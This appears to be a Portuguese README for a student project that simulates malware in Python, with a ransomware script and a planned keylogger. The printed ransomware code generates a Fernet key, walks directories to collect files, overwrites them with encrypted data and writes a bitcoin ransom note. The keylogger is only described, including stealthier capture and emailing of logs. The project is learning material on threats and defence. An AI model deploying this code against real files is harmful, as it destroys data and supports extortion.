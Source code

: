 
**Implementar, documentar e compartilhar** um projeto prático utilizando **Python**, simulando o comportamento de Malwares em um ambiente seguro.

- **Ransomware Simulado**: criar arquivos de teste, implementar um script que criptografa e descriptografa, além de gerar mensagem de “resgate”.    
- **Keylogger Simulado**: programar captura de teclas em arquivo `.txt`, torná-lo mais furtivo e implementar envio automático por e-mail.    
- **Reflexão sobre Defesa**: documentar medidas de prevenção e defesa (antivírus, firewall, sandboxing, conscientização do usuário).

----
## Tipo de ameaça - Ransowere

-----

**Descrição**: Criptografa os arquivos de um sistema e exige um resgate em dinheiro para devolvê-los, muitas vezes por meio de pagamentos em criptomoedas.

Exemplo de um código ransowere (Criptografia e Descriptografia):

Encryption.py
```python
from cryptography.fernet import Fernet
import os  

#1. Gerar uma chave de criptografia e salvar
def gerar_chave():
	chave = Fernet.generate_key()
	with open("chave.key", "wb") as chave_file:
		chave_file.write(chave)  

#2. Carregar a chave salva
def carregar_chave():
	return open("chave.key", "rb").read()  

#3. Criptografar um único arquivo
def criptografar_arquivo(arquivo, chave):
	f = Fernet(chave)
	with open(arquivo, "rb") as file:
		dados = file.read()
	dados_encriptados = f.encrypt(dados)
	with open(arquivo, "wb") as file:
		file.write(dados_encriptados)  

#4. Encontrar arquivos para criptografar
def encontrar_arquivos(diretorio):
	lista = []
	for raiz, _, arquivos in os.walk(diretorio):
		for nome in arquivos:
			caminho = os.path.join(raiz, nome)
			if nome != "ransoware.py" and not nome.endswith(".key"):
				lista.append(caminho)
	return lista

  

#5. Mensagem de resgate
def criar_mensagem_resgate():
	with open("LEIA ISSO.txt", "w") as f:
		f.write("Seus arquivos foram criptografados!\n")
		f.write("Envie 1 bitcoin para o endereço X e o comprovante!\n")
		f.write("Depois disso, enviaremos a chave para recuperar seus dados!\n")
		f.write("('w')")
  
```